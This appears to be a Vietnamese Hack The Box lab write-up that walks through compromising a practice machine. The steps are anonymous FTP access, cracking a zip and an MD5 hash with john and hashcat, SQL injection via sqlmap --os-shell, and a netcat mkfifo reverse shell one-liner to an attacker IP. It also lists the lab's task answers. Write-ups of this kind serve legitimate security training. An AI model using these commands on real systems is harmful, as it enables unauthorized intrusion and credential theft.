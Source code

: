![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/5662756c-ae90-41ca-9fd1-6b2dc4de3824)

- Chạy nmap -sV -T4 quét các dịch vụ chạy trên máy chủ

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/fe21aece-cacf-4e33-9df8-38c1df972a5f)

* Task 1: Besides SSH and HTTP, what other service is hosted on this box?: ftp
- Ta cần thu thập thêm thông tin về dịch vụ chạy lệnh: nmap -sC -T4 "ip"

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/5eb0427b-97ac-44d2-8f8d-e39c4445e7db)

- Điều cần chú ý ở đây là FTP: giao thức truyền tệp qua mạng, hoạt động theo mô hình client-server
* Task 2: This service can be configured to allow login with any password for specific username. What is that username?:  Anonymous
- Tiến hành đăng nhập bằng username: anonymous.
- command: ftp anonymous@10.129.95.174

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/1b95ed0e-7c6d-4f93-8c66-33286c1bcc04)

- Sử dụng lệnh ls để liệt kê thư mục, file. Ta thấy có 1 file là backup.zip. Sử dụng lệnh get để tải file xuống
*  Task 3: What is the name of the file downloaded over this service?: backup.zip

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/44b107cc-6c0a-49fc-9483-06bf3f3ab6e1)

- Tiến hành giải nén file, file có mật khẩu. Sử dụng john the ripper để crack mật khẩu.
- Task 4: What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?: zip2john

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/be6c18c3-dfe3-47bd-b66a-46d8aa6b6f24)

- Crack không được, ta dùng wordlist để bẻ khóa (dùng wordlist rockyou.txt)

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/e74ef254-78ba-4728-9eae-54320ebb52d1)

- lấy được password: 741852963
- Tiến hành giải nén file backup được 2 file là index.php và style.css
- Ta quan tâm đến file index.php
![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/1a19ce53-dbad-4f3f-ad70-4bb1e0b322d6)

- Thấy được user là admin là mật khẩu là 1 mã hax: dùng tiếp john the ripper để crack.
- Chạy không ra => dùng hashcat 
- hashcat -m 0 -a 0 vaccine2.txt /usr/share/wordlists/rockyou.txt
- trong đó -m là hash mode 0 là md5, -a attack mode  0 | Straight
![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/389030fd-416c-4c61-a0bc-badc488057f9)

- Task 5: What is the password for the admin user on the website?: qwerty789
- Đề bài ở đây là thực thi sql injection: sử dụng sql map.
- Tạo 1 file là new.req để lưu request.
- Dùng burpsuite bắt requets copy-> new.req
- ![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/37a107c6-cce8-4340-8167-fcec10e9dc59)

- Sử dụng sqlmap -r new.req --os-shell
- Tham số -r là đọc request từ file new.req, tham số --os-shell để thực thi lệnh shell từ xa. 
- Task 6: What option can be passed to sqlmap to try to get command execution via the sql injection?: --os-shell
- ![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/c4679cf5-719d-4233-920c-2e0217587f6e)

- lệnh shell: (rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.22 1234 >/tmp/f)
+ Sẽ tạo tệp fifo: tệp để truyền dữ liệu giữa các tiến trình: ip 10.10.14.22(ip của máy tấn công: ifconfig, tun0) cổng 1234 
+ Sau khi thực thi lệnh xong.
+ mở terminal chạy netcat để lắng nghe trên cổng 1234 
+ để shell hoạt động trơn tru vip pro hơn: 
      python3 -c 'import pty;pty.spawn("/bin/bash")'
      CTRL+Z
      stty raw -echo
      fg
      export TERM=xterm
![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/4691fbcf-a4c7-412e-a7ce-77da3fb87460)

- Cat user.txt ra được flag 1
- ![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/580a4340-46f4-4546-b392-9dc49a411e43)
